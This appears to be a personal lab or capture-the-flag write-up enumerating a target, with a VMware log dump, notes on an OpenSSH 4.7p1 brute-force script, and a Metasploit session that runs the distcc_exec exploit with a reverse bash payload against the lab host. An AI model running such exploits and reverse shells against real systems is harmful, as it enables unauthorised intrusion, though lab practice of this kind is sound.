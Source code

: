 ```
$cat X0-lock 
      5683
$cat vgauthsvclog.txt.0 
[Sep 16 07:27:26.972] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Sep 16 07:27:26.972] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Sep 16 07:27:26.972] [ message] [VGAuthService] Group 'service'
[Sep 16 07:27:26.972] [ message] [VGAuthService] 	 samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Sep 16 07:27:26.972] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Sep 16 07:27:27.033] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Sep 16 07:27:27.033] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Sep 16 07:27:27.033] [ message] [VGAuthService] Group 'service'
[Sep 16 07:27:27.033] [ message] [VGAuthService] 	 samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Sep 16 07:27:27.033] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Sep 16 07:27:27.033] [ message] [VGAuthService] Cannot load message catalog for domain 'VGAuthService', language 'C', catalog dir '.'.
[Sep 16 07:27:27.033] [ message] [VGAuthService] INIT SERVICE
[Sep 16 07:27:27.033] [ message] [VGAuthService] Using '/var/lib/vmware/VGAuth/aliasStore' for alias store root directory
[Sep 16 07:27:27.082] [ message] [VGAuthService] SAMLCreateAndPopulateGrammarPool: Using '/usr/lib/vmware-vgauth/schemas' for SAML schemas
[Sep 16 07:27:27.112] [ message] [VGAuthService] SAML_Init: Allowing 300 of clock skew for SAML date validation
[Sep 16 07:27:27.112] [ message] [VGAuthService] BEGIN SERVICE
```
I do not know what to do with this information.

### SSH
The SSH server version is OpenSSH 4.7p1. According to a GitHub script, it seems this version is vulnerable: https://github.com/pankajjarial360/OpenSSH_4.7p1
However, by reading the exploit, it seems to run a bruteforce using MetaSploit and a default wordlist. I do not see how this could exploit anything. I run it just to be sure, but I have no hope.

### `distcc`
`distcc` seems to have a vulnerability that could be exploited using MetaSploit:
```
[msf](Jobs:0 Agents:0) >> search exploit distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/reverse_bash
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> set rhosts 10.129.106.70
rhosts => 10.129.106.70
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> check
[+] 10.129.106.70:3632 - The target is vulnerable.
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> run

[*] Started reverse TCP handler on 192.168.0.87:4444 
[*] 10.129.106.70:3632 - stderr: bash: 188: Bad file descriptor
```